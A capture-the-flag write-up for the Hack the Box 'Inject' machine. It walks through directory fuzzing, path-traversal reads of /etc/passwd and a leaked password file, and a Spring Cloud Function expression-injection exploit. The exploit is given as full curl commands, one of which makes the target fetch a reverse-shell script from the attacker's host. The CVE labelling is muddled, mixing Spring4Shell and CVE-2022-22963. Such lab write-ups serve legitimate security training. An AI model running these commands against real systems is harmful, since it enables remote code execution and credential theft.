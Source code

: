 # Inject

Hack the Box - Machine - Easy

https://app.hackthebox.com/machines/Inject

Machine IP: 10.129.244.93


## Recon

* I start all CTFs by running nmap to view open ports and include the flags for running default scripts (-sC) and probing open ports for service/version info (-sV)

![image](https://user-images.githubusercontent.com/130006051/230235341-7d9703a9-663d-4b15-b613-2d9512ded3ee.png)

* Port 22 is almost always useless until we have credentials, so let's start with opening Burp Suite's browser and going to the machine on port 8080

* I like to start browsing around by clicking all of the links. This helps build the directory tree in Burp Suite as well as lets me know which links actually work. On this site, there are a lot of links that are just anchors that don't actually go anywhere.

* While I'm working through clicking all the things, I also like to start directory enumeration. For this one, I would use FFuF.

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.244.93:8080/FUZZ`

* For this machine, I focused on the /upload page. Here you can upload an image and it provides you with a link to view that image.

![image](https://user-images.githubusercontent.com/130006051/230237802-8f78e61a-cae0-4b9d-a186-0c1fc616acc0.png)

![image](https://user-images.githubusercontent.com/130006051/230237856-baa19ea2-f602-4867-87c6-17f66b1849fa.png)

* Before clicking "View your Image", turn on the intercept on Burp Suite

## Vulnerability
### [Local File Inclusion](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)

* We can see that the image is stored at `/show_image?img=<ImageName>`. Send this GET request to the repeater.

* Change the GET request to `/show_image?img=../../../../../../etc/passwd` and you see we get the /etc/passwd file. This is a good list to have as it helps with user enumeration.

![image](https://user-images.githubusercontent.com/130006051/230238964-dd298709-a649-4fe7-92c5-95318f7696f3.png)

* At this point, I try to see how many directories I can get to. Especially /home directories.

![image](https://user-images.githubusercontent.com/130006051/230239207-41fe3b12-531e-4993-bad6-fbd5c0319e84.png)

* Search in both the user's directories for any information that may be valuable.

* One piece of valuable information can be found at `/home/frank/.m2/setting.xml`. For some reason, Frank has Phil's username and password.

`username: phil`

`password: DocPhillovestoInject123`

* Since I have a username and password, I like to try and log in using SSH, but no such luck this time.

* While continuing to search through the website information using the LFI method, I found that the page was using [Spring Framework](https://spring.io).

![image](https://user-images.githubusercontent.com/130006051/230240670-cfb76bde-6c0f-480c-9c2a-30c58ae4d835.png)

## Exploit 
### [Spring4Shell](https://www.hackthebox.com/blog/spring4shell-explained-cve-2022-22965) - [CVE-2022-22963](https://nvd.nist.gov/vuln/detail/cve-2022-22965)

https://sysdig.com/blog/cve-2022-22963-spring-cloud/

https://github.com/cybersecurityworks553/spring4shell-exploit

* An easy test to see if this site is vulnerable to this exploit is by running a curl command to see if we can create a file within the /tmp directory which we'll check using the LFI in Burp.

`curl -X POST -H "Host: 10.129.244.93:8080" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('touch /tmp/test')" --data-binary "exploit_poc" "http://10.129.244.93:8080/functionRouter"`

**NOTE: The curl will return an error about a "Type conversion problem". This is okay. Check that the file was created in /tmp using Burp.**

Looks like we have a winner! This means we can execute commands on the server. 

* Now I need to upload a reverse shell and execute it to gain access to the server

[Generate the reverse shell payload](https://www.revshells.com/)

* Start the listener

`nc -lnvp 1337`

* Start a python webserver in the directory that the reverse shell is located

`python3 -m http.server 80`

* Upload the payload

`curl -X POST -H "Host: 10.129.244.93:8080" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('curl http://10.10.14.158:80/newshell.sh -o /tmp/newshell.sh')" --data-binary "exploit_poc" "http://10.129.244.93:8080/functionRouter"`

* Execute the reverse shell

`curl -X POST -H "Host: 10.129.244.93:8080" -H "spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec('bash /tmp/newshell.sh')" --data-binary "exploit_poc" "http://10.129.244.93:8080/functionRouter"`

* We've got a shell!

![image](https://user-images.githubusercontent.com/130006051/230243773-d05f83c9-7eda-4ef0-846a-5fd27468466b.png)

* The user.txt file is located at `/home/phil/` but we are getting access denied when we try to read it. Luckily, we know Phil's password from our recon earlier.

`su phil`

* This one is a little strange because we do not get a prompt back, but if we issue a few commands, we can verify we have a shell as Phil.

![image](https://user-images.githubusercontent.com/130006051/230244167-079f395a-ba4c-4058-bcd7-50027e507e38.png)

* Now let's read the file and get the first flag!

`cat user.txt`

## Privilege Escalation
### Ansible Playbook Tasks

* To be continued...
